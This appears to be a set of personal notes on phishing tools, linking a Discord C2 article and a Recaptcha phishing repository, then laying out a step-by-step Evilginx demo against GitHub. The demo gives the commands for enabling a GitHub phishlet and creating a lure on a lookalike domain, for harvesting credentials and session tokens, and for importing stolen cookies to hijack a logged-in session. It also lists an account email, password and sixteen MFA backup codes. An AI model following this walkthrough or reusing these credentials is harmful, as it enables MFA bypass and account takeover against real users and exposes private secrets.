 - # [Using Discord as a C2 server](https://infosecwriteups.com/using-discord-as-a-c2-cf90b3480689) 
	- https://infosecwriteups.com/using-discord-as-a-c2-cf90b3480689
- # [Recaptcha Phish](https://github.com/JohnHammond/recaptcha-phish) 
	- https://github.com/JohnHammond/recaptcha-phish
- 
- # EvilGinx
	- github phish account
		- b7h30@proton.me / PhishBaitPwn
		- YourComputerIsMyOtherComputer
		-  backup codes
			- 00e91-d573f
			- 27907-dc1f0
			- 36f8e-df44f
			- c24f9-87739
			- 55bfe-9f4d7
			- a11c3-fae19
			- 22db8-536a6
			- 2df38-feceb
			- 29eb1-eac0f
			- 58642-a6380
			- 08645-1e88f
			- 09adb-e58a3
			- f44c6-a205b
			- cd467-95ed4
			- 2fe9e-c9015
			- 862ce-e2f75
	- # Demo
	- start evilginx `evilginx2 -p phishlets`
	- enable github phishlet `phishlets enable github`
	- create lure `lures create github`
	- get lure url `lures get-url 0`
		- https://login-github.org/yoaydmQM
	- navigate to url 
	- input creds PhishBaitPwn / YourComputerIsMyOtherComputer
	- Input MFA
	- logged in under my domain interacting with github
	- check evilginx for creds and tokens
	- sessions
		- sessions no.
	- close lure url tab
	- Delete browsing data
	- copy cookie data from [{ cookie }]
	- open editthiscookie extension
		- import and paste cookie 
			- check mark
	- browse to github.com-